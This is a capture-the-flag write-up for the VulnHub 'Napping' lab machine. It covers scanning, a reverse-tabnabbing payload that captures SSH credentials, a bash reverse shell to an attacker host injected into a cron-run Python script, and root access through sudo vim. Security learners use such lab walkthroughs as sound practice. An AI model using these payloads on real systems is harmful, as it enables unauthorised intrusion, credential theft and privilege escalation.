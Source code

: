 

!----------------------[ NAPPING VULNHUB MECHINE WRITE UP ]-----------------------!


http://ip

NMAP : 
	nmap -sV -sC -A -O $ip

	PORT   STATE SERVICE VERSION
	22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
	| ssh-hostkey:
	|   3072 24:c4:fc:dc:4b:f4:31:a0:ad:0d:20:61:fd:ca:ab:79 (RSA)
	|   256 6f:31:b3:e7:7b:aa:22:a2:a7:80:ef:6d:d2:87:6c:be (ECDSA)
	|_  256 af:01:85:cf:dd:43:e9:8d:32:50:83:b2:41:ec:1d:3b (ED25519)
	80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
	|_http-title: Login
	| http-cookie-flags:
	|   /:
	|     PHPSESSID:
	|_      httponly flag not set
	|_http-server-header: Apache/2.4.41 (Ubuntu)
	MAC Address: 08:00:27:49:EE:4D (Oracle VirtualBox virtual NIC)
	Device type: general purpose
	Running: Linux 4.X|5.X
	OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
	OS details: Linux 4.15 - 5.6
	Network Distance: 1 hop
	Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

	TRACEROUTE
	HOP RTT     ADDRESS
	1   0.54 ms 192.168.56.101



DIRECTORY BRUTEFORCE :
	dirsearch -u http://$ip -x 404,401,403

	[00:52:38] Starting:
	[00:52:59] 200 -    0B  - /config.php
	[00:53:06] 200 -    1KB - /index.php
	[00:53:07] 200 -    1KB - /index.php/login/
	[00:53:10] 302 -    0B  - /logout.php  ->  index.php
	[00:53:19] 200 -    2KB - /register.php


CREATE A USER IN WEB APPLICATION :

	http://$ip/register.php
	$user = test
	$pass = 123456


LOGIN AND CHECK ALL THE FUNCTION:
	
	user input position - [http://URL]

	CHECK SSRF 
---------------------------------------------------------
EXPLOIT :
	
   [1] CREATE A indez.html FILE -
		<--------indez.html-------->
		<!DOCTYPE html>
		<html>
    		<body>
        		<script>
            		windows.opener.location = 'http://[your ip]:9000/index.html';
        		</script>
    		</body>
		</html>

   [2] OPEN A NETCAT LISTENER -
		
		$ nc -lnvp 9000 

   [3] START A HTTP SERVER ON YOUR COMPUETR WHERE
       indez.html FILE PRESENT -
		
		$ python -m http.server
		  Serving HTTP on :: port 8000 (http://[::]:8000/)

   [4] COPY THE URL AND INPUT IN WEB APP
       INPUT POSITION -

       http://[your ip:8000]/indez.html

       get a CLICK BUTTON LATER SUBMIT
       and click on the button
   
   [5] WAIT FOR 1 OR 2 MINITUES -

   	   in your netcat listener get a http post request
   	   and this contain $user & $pass of SSH login

#############################################################
$ python -m http.server
	Serving HTTP on :: port 8000 (http://[::]:8000/) ...
	::ffff:192.168.56.1 - - [03/Sep/2022 01:23:59] "GET /indez.html HTTP/1.1" 200 -
	::ffff:192.168.56.101 - - [03/Sep/2022 01:24:03] "GET /indez.html HTTP/1.1" 200 -

#############################################################
$ nc -lnvp 9000
	Connection from 192.168.56.101:50242
	POST /index.html HTTP/1.1
	Host: 192.168.56.1:9000
	User-Agent: python-requests/2.22.0
	Accept-Encoding: gzip, deflate
	Accept: */*
	Connection: keep-alive
	Content-Length: 45
	Content-Type: application/x-www-form-urlencoded

	username=daniel&password=C%40ughtm3napping123%

#############################################################

SSH LOGIN :
	
	$ ssh daniel@$ip -p 22
	  daniel@$ip's password: C@ughtm3napping123

	[1] CHECK ALL USR
	[2] GO TO adrian USR FOLDER
	[3] CHECK id
	[4] $ find / -group administrators -type f 2>/dev/null
		  
		  /home/adrian/query.py

	[5] cat query.py
		
		from datetime import datetime
		import requests
		import os
		now = datetime.now()

		os.system('/usr/bin/bash /dev/shm/shell.sh')

		r = requests.get('http://127.0.0.1/')
		if r.status_code == 200:
    		f = open("site_status.txt","a")
    		dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    		f.write("Site is Up: ")
    		f.write(dt_string)
    		f.write("\n")
    		f.close()
		else:
    		f = open("site_status.txt","a")
    		dt_string = now.strftime("%d/%m/%Y %H:%M:%S")
    		f.write("Check Out Site: ")
    		f.write(dt_string)
    		f.write("\n")
    		f.close()	  

    [6] GO TO /dev/shm FOLDER & CREATE A RREVERSHELL SCRIPT

    	#!/bin/bash
		bash -c 'bash -i >& /dev/tcp/[your ip]/1234 0>&1'

	[7] AND ALSO ADD SOMTHING IN query.py FILE

		import os
		os.system('/usr/bin/bash /dev/shm/con.sh')

	[8] WAIT 2-3 MIN AND GET REVERSE SHELL


		➜  ~ nc -lnvp 1234
		Connection from 192.168.56.101:53686
		bash: cannot set terminal process group (1797): Inappropriate ioctl for device
		bash: no job control in this shell
		adrian@napping:~$

	[9] $ sudo -l
		sudo -l
		Matching Defaults entries for adrian on napping:
   		env_reset, mail_badpass,
    	secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

		User adrian may run the following commands on napping:
    	(root) NOPASSWD: /usr/bin/vim

    [10] PREVILAGE ESQULATION

    	 sudo /usr/bin/vim -c ':!/bin/sh'

    [11] GET ROOT SHELL


 --------------------------<COMPLETE>-------------------------------